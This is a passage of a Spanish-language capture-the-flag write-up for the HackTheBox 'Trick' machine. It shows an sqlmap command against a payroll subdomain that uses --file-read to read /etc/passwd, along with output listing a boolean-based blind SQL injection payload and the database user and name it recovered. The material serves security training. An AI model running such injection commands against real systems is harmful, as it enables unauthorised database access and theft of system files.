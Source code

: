 <img
src="https://res.cloudinary.com/djc1umong/image/upload/v1686608861/trick_action_save_payroll_nmq0sy.webp"
alt="trick.htb image"
width={600}
height={225}
/>
<img
layout="responsive"
src="https://res.cloudinary.com/djc1umong/image/upload/v1686608895/trick_preprod_login_action_login_o5tc8x.webp"
alt="trick.htb image"
width={600}
height={204}
/>

al abrir el nuevo subdominio vemos que la url puede ser manipulada con el parametro <i>page=</i>

<img
src="https://res.cloudinary.com/djc1umong/image/upload/v1686608917/trick_page_var_sd2fv3.webp"
alt="trick.htb image"
width={600}
height={204}
/>

esto nos da a pensar que es sensible a <a src='https://owasp.org/www-community/attacks/Path_Traversal'>Path Traversal Attack</a>
sin embargo nosotros usaremos <i>sqlmap </i> con estos datos recolectados hasta ahora.

<img
src="https://res.cloudinary.com/djc1umong/image/upload/v1686608937/trick_burp_employee_anynmy.webp"
alt="trick.htb image"
width={812}
height={321}
/>

```bash
root@loe# sqlmap --url "http://preprod-payroll.trick.htb/ajax.php?action=save_employee" --data "id=&firstname=loefirst&middlename=&lastname=loelast&department_id=1&position_id=1&salary=2000" --file-read "/etc/passwd" --batch --dbs --threads 10 --current-user --current-db
...

Parameter: id (POST)
Type: boolean-based blind
Title: Boolean-based blind - Parameter replace (original value)
Payload: id=(SELECT (CASE WHEN (2945=2945) THEN '' ELSE (SELECT 3662 UNION SELECT 7138) END))&firstname=loefirst&middlename=&lastname=loelast&department_id=1&position_id=1&salary=2000
---Rust Scan
[22:25:48] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx 1.14.2
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[22:25:48] [INFO] fetching current user
[22:25:48] [INFO] retrieving the length of query output
[22:25:48] [INFO] resumed: 14
[22:25:48] [INFO] resumed: remo@localhost
current user: 'remo@localhost'
[22:25:48] [INFO] fetching current database
[22:25:48] [INFO] retrieving the length of query output
[22:25:48] [INFO] resumed: 10
[22:25:48] [INFO] resumed: payroll_db
current database: 'payroll_db'
...
[22:25:52] [INFO] fetching file: '/etc/passwd'
[22:25:52] [INFO] retrieving the length of query output
```